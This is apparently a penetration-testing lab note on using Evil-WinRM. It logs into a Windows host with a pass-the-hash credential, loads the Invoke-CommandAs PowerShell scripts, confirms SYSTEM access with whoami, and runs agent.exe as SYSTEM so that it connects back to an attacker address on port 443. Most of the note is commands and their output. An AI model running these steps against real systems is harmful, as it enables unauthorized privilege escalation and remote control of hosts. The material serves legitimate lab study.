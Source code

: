 To make everything more simple I created a local scripts folder to use for Evil-WinRM. This will allow me not have to map the entire directory.

![[Pasted image 20231214120707.png]]

in the new scripts directory create two PowerShell files.

![[Invoke-ScheduledTask.ps1]] https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1

![[Invoke-CommandAs 1.ps1]] https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1

### Evil-WinRM

```
evil-winrm -i 172.16.1.20 -u xadmin -H 649f65073a6672a9898cb4eb61f9684a -s /home/p3ta/scripts/PS_Scripts
```

Invoke the scripts

```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-ScheduledTask.ps1
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs.ps1
```

Verify that the scripts are functioning

```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs -ScriptBlock {whoami} -AsSystem
nt authority\system
```

Execute your command as system, in this case agent.exe

```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs -ScriptBlock { C:\Users\xadmin\Documents\agent.exe -connect 10.10.14.21:443 -ignore-cert } -AsSystem
```